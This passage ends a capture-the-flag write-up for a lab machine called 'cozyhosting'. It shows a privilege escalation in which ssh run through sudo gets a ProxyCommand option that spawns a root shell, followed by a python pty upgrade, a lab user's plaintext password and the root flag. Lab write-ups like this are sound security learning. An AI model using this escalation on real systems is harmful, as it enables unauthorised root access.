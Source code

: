 Seems like I am missing something. I was not thinking and typed `ssh` instead of `sudo`. I also was missing the directory that "josh" has root access to use `ssh` through. Let's change it up:

```
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
[sudo] password for josh: manchesterunited

# id
id
uid=0(root) gid=0(root) groups=0(root)
# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@cozyhosting:/home/josh# 
```

Success! Let's find the final flag:

```
root@cozyhosting:/home/josh# cd /root
cd /root
root@cozyhosting:~# ls
ls
root.txt
root@cozyhosting:~# cat root.txt
cat root.txt
148ad8c88d9154952e4957e6c0454ffc
```

Root flag = <mark style="background-color:green;">148ad8c88d9154952e4957e6c0454ffc</mark>

This was a fun box. If the box was not retiring so soon, I would have spent more time on it and gotten fewer hints. Regardless I learned a lot and had a blast using BurpSuite and the `john` tool to crack the hash. Onward!
